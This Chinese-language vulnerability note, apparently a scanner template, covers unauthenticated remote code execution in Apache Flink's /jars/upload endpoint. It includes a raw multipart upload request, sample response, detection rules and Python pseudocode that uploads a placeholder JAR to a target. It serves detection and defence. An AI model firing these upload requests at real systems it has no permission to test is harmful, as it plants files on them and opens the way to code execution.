

# Apache Flink 未授权远程代码执行漏洞（apache-flink-unauth-rce）

## 漏洞简介
Apache Flink 存在未授权远程代码执行（RCE）漏洞，攻击者可在无需认证的情况下上传恶意 JAR 文件并执行任意代码，危害极大。

## 影响范围
- 受影响产品：Apache Flink
- 影响版本：部分未做认证保护的 Flink 版本

## 漏洞原理
Flink 的 JAR 上传接口 `/jars/upload` 未做访问控制，攻击者可直接上传恶意 JAR 文件，随后通过相关 API 触发执行，实现远程代码执行。

## 利用方式与攻击流程
1. 攻击者构造 multipart/form-data POST 请求，向 `/jars/upload` 上传恶意 JAR 文件。
2. 上传成功后，利用 Flink 提供的 API 触发 JAR 执行，实现任意代码执行。

## 探测原理与流程
### 请求包示例
```http
POST /jars/upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data;boundary=8ce4b16b22b58894aa86c421e8759df3

--8ce4b16b22b58894aa86c421e8759df3
Content-Disposition: form-data; name="jarfile";filename="poc.jar"
Content-Type:application/octet-stream

  <JAR 文件内容>
--8ce4b16b22b58894aa86c421e8759df3--
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: application/json
{
  "filename": "_poc.jar",
  "status": "success"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应头包含 `application/json`。
- 响应体包含 `success` 和 `_poc.jar`。

### 伪代码
```python
files = {'jarfile': ('poc.jar', b'binary_content')}
resp = requests.post('http://target.com/jars/upload', files=files)
if resp.status_code == 200 and 'application/json' in resp.headers.get('Content-Type','') and all(x in resp.text for x in ['success','_poc.jar']):
    print('存在未授权 RCE 漏洞')
```

### Mermaid 流程图


## 参考链接
- [Exploit-DB 漏洞分析](https://www.exploit-db.com/exploits/48978)
- [Flink 1.9.x 配置与安全分析](https://adamc95.medium.com/apache-flink-1-9-x-part-1-set-up-5d85fd2770f3)
- [LandGrey/flink-unauth-rce](https://github.com/LandGrey/flink-unauth-rce) 